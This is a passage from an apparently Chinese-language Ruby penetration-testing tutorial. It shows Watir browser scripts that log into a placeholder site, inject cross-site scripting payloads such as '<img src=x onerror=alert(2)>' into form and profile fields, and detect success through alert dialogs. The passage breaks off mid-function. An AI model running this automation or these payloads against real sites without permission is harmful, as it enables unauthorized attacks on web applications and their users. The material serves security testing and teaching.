 ```
  sleep 0.1
  @browser.button(value: 'Send').click
end

payloads =
    [
      '"><script>alert(1)</script>',
      '<img src=x onerror=alert(2)>'
    ]

puts "[*] Exploitation start"
puts "[*] Number of payloads: #{payloads.size} payloads"
payloads.each do |payload|
  print "\r[*] Trying: #{payload}"
  print "\e[K"
  sendpost payload

  if @browser.alert.exists?
    @browser.alert.ok
    puts "[+] Exploit found!: " + payload
    @browser.close
  end
end 
```

### 处理标签页

我遇到的一个场景是利用 XSS 用户配置字段，并在另一页中检查结果，该页面显示公共用户的配置文件。我不断地重新访问 URL，而是打开新标签页并刷新公共用户的配置文件页面，然后返回发送利用，依此类推。

**xss_tab.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'watir'
require 'uri'

@url = URI.parse "http://example.com/Users/User_Edit.aspx?userid=68"

@browser = Watir::Browser.new :firefox
@browser.window.resize_to(800, 600)
# @browser.window.move_to(540, 165)
@wait = Selenium::WebDriver::Wait.new(:timeout => 10)

@browser.goto "http://example.com/logon.aspx"

# Login
@browser.text_field(name: 'Login1$UserName').set("admin")
@browser.text_field(name: 'Login1$Password').set("P@ssword")
sleep 0.5
@browser.button(name: 'Login1$LoginButton').click

def sendpost(payload)
  begin

    @browser.switch                                                             # Make sure to focus on current tab/window
    @browser.goto "#{@url.scheme}://#{@url.host}/#{@url.path}?#{@url.query}"    # Goto the URL
    @wait.until {@browser.text_field(id: 'txtFullName').exists?}                # Wait until wanted text area appear
    @browser.text_field(id: 'txtFullName').set(payload)                         # Set payload to the text area
```
